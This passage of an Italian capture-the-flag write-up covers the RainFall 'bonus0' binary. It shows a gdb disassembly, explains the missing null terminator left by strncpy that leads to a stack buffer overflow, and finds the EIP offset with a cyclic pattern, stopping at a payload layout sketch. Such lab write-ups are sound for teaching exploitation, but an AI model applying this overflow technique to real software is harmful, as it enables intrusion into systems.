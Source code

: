 ### Funzione `p`
```
(gdb) disass p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp)
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```
Riserva 0x1018 (4120) byte di spazio nello stack, chiama `puts` per stampare il
secondo argomento della funzione, poi `read` leggendo `4096` byte dallo `stdin`,
e con `strchr` cerca il carattere `\n` per poi sostituirlo con il carattere `0`,
per poi copiare con `strncpy` il buffer letto da `read` nella stringa passata come
primo argomento della funzione.

### Soluzione
La funzione `strncpy` usata in `p` copia solo 20 byte, dunque se inviamo una stringa
più lunga nel primo `read`, non avremo il carattere `0` a terminare la stringa e lo stesso
vale per la seconda chiamata a `read` così da non avere nessuno terminatore nel buffer e
causare un `buffer overflow` nella successiva chiamata a `strcpy`.
Dunque ora troviamo l'offset per sovrascrivere il puntatore in `eip` tramite il sito [Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/):
```
bonus0@RainFall:~$ gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 -
012345678901234567890
Aa0Aa1Aa2Aa3Aa4Aa5Aa01234567890123456789��� 01234567890123456789���

Program received signal SIGSEGV, Segmentation fault.
0x32313039 in ?? ()
```
La seconda stringa sovrascrive l'eip e si trova ad un offset di 9,
quindi il nostro buffer finale dovrà essere:
```
| str2 | str1 |
    ^      ^
```